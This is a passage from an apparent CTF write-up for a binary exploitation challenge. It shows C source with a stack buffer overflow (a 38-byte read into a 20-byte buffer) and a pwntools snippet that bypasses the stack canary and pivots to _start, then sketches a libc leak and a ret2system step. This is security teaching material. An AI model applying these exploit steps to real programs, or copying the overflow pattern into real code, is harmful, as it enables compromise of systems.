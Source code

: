 Then you can see that there is another overflow in function3.

```c
void function3(long *numbers) { 
    char hacker_name[20]; 

    printf("Wow, I'm impressed you got it this far.\nYou should consider making a hacker name,\nyou know, the cool names hackers give themselves\n> "); 
    read(0, hacker_name, 38); 

    printf("\nNow for the next part, please give me 10 integers plz\n> "); 
    for (int i = 0; i < 10; ++i)
        scanf("%ld", &numbers[i]);
    getchar();
}
```

After providing input, it returns to `function2` and asks for the last input. However, after input, the program terminates.

So, to get the program back, we can use the overflow in function3 to pivot at the exit, where `stack + 0x8` contains `_start`.

![alt](../../../img/CTFNational/HackToday_CTF_2025/Stack.png)

Here i use "x" to skip the 10 integer number input. Then, at the last input, just fill it with canary 12 times (just to bypass the canary check).
```python
target = stack + 0xd8 #pivot to _start
sa("> ", p64(canary)*4 + p64(target)[:6])
sa("> ", b"x") #So it fail and pass the scanf function
sa("> ", p64(canary)*12) # just need the 96 = canary, this is for easier
```

After that, we just repeat the input as before and enter function1 to leak libc. Then, just enter `function2` and pivot the address to the input numbers so that when ret is read, it can be `RIP`, which will be filled with `ret2system`.
